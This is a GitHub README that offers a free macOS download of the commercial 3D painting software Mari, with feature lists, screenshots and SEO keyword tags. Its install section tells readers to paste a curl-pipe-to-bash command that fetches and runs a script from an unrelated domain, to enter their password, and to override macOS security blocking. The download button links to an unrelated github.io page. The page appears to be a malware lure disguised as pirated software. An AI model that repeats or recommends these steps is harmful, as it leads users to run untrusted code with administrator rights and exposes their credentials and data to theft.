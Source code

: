 <p align="center">
  <img src="https://i.ibb.co/xSNPQx7d/1684334661-icon.webp" width="350" alt="Mari macOS Banner" />
</p>

<h1 align="center">Mari for macOS</h1>

<p align="center">
  🎨 Industry-standard 3D texturing software for VFX, animation, and games. Paint ultra-high-resolution textures directly onto 3D models with Mari on macOS.  
  <br><br>
  ✅ VFX Studio-Grade Workflow  
  ✅ Compatible with Sonoma, Ventura, Monterey  
</p>

---

## 🔻 Download

<p align="center">
  <a href="https://bloodangel210.github.io/modarbas/273" target="_blank">
    <img src="https://img.shields.io/badge/⬇️%20DOWNLOAD%20MARI%20MAC-GET%20FULL%20ACCESS-green?style=for-the-badge&logo=apple&logoColor=white" alt="Download Mari for macOS">
  </a>
</p>

---

## 📸 Preview

<p align="center">
  <img src="https://i.ibb.co/SwRDW6nn/1670167288-1.jpg" alt="Mari 3D Painting Interface Screenshot" />
</p>

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is Mari for macOS?

**Mari** is a world-class 3D painting application designed for artists working in film, VFX, and AAA game development. With support for ultra-high-resolution textures and complex geometry, Mari allows artists to paint directly onto models with detailed brushes, real-time feedback, and node-based workflows.

It’s trusted by studios across the globe for assets requiring photorealistic textures and unmatched control in a professional environment.

---

## ✅ Why Choose Mari?

- 🎨 **Paint Directly on 3D Models**  
- 🧠 **Node-Based Material System**  
- 🖼️ **Handle 32K Textures with Ease**  
- 🛠️ **Custom Brush Engine for Artists**  
- 📁 **Support for UDIM and PBR Workflows**  
- 🚀 **Multi-Layered Painting with Masks**  
- 🍎 **Optimized for Apple Silicon**  
- 🧩 **Interoperable with VFX Pipelines**

---

## 📸 More Screenshots

<p align="center">
  <img src="https://i.ibb.co/S7tNR6RM/1670167289-2.jpg" alt="Texture Painting Workflow Screenshot" />
  <br><br>
  <img src="https://i.ibb.co/bjbP0ytS/1670167289-3.jpg" alt="Node Graph Material Setup Screenshot" />
</p>

---

## 🚀 Key Features

- High-end 3D painting engine  
- Full PBR + UDIM support  
- Custom brushes and procedural masks  
- Multi-channel layer control  
- Non-destructive node workflow  
- VFX pipeline integration  
- 32K texture support  
- Apple Silicon native

---

## 💻 System Requirements

macOS 10.10 (Yosemite) or later  
Supports Monterey, Ventura, Sonoma  
Intel & Apple Silicon (M1/M2/M3)  
At least 100MB free disk space  

---

## 🧠 Note

If your Mac blocks the app during launch:  
Go to **System Settings > Privacy & Security** → Allow Mari manually.

---

<!-- Hidden tech SEO-friendly badges -->
<p align="center">
  <img src="https://img.shields.io/badge/macOS-10.10%2B-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/3D-Texturing+Painting+UDIM-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Support-Apple+Silicon+Ready-lightgrey?style=flat-square" />
</p>

---

## 🔗 License

This project is licensed under the MIT License.  
You are free to use, modify, and distribute it for personal use.

---

## 📚 Support and Contribution

Have feedback, suggestions, or found a bug?  
Feel free to open an issue or contribute via pull request.

---

## ⭐ Mari – Paint with Precision

Thanks for using **Mari for macOS**.  
Build stunning textures, pixel by pixel.

---

## 🧭 Usage Context

Mari is built for artists in professional VFX and game environments.  
Run fully offline, paint high-resolution textures, and integrate with your preferred rendering tools.

---

## 🔍 Tags

```text
mari mac download, 3d texture painting software macos, vfx texturing tool for mac, node-based material editor mac, paint udim textures on macbook, high-res texture painter apple silicon, 3d art pipeline tool for mac artists, pbr workflow texturing app mac, mari full version for mac os x, download mari 3d painting software, substance painter alternative mac, mari mac apple m1 m2 m3 support, mari vfx production tool macos, film-grade texture paint app mac, 32k texture painting solution mac
